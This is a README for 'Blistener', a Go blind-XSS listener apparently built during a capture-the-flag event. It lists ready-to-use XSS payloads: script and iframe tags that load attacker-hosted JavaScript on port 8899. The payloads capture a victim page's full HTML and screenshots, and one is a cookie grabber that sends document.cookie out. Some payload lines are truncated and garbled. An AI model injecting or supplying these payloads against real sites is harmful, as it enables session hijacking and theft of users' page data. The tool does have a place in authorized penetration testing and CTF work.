

# Blistener (Blind-XSS listener)

Code was written quickly during a CTF and should probably be refactored. Not going to change it for now since it's working. I'll refactor when I add new features to it.

It has 2 exploits, one which will take all data available on the page including the html code and the other which will also take a screenshot of the page as well as all the data on the page.


## Compiling

```
go build blistener.go
```

## Usage

1. Create an output directory where the listener will store html code and png images from the xss pages it identifies

2. Start the listener:
```
./blistener
```

3. Use one of the payloads to trigger an XSS 

## Exploit strings


```
# The normal payloads will grab all content from the page including the html source
<script src="http://<your host or ip>:8899/payload.js"></script>
<iframe src="http://<your host or ip>:8899/iframe.html"></iframe>


# The extended payloads do the same as the normal payloads except that they also take a screenshot of the page 
<script src="http://<your host or ip>:8899/payload-ext.js"></script>
<iframe src="http://<your host or ip>:8899/iframe-ext.html"></iframe>

# You call also use a normal request to make sure the XSS can be trigger such as:
:8899/" />

# Simple cookie grabber
:8899/?c=${document.cookie}`" />
```

_Note: The listener is on port 8899 by default, change to another port if you need._


## Example trigger




## Todo

- Answer to OPTIONS requests
- Add cli flags
- Refactor code
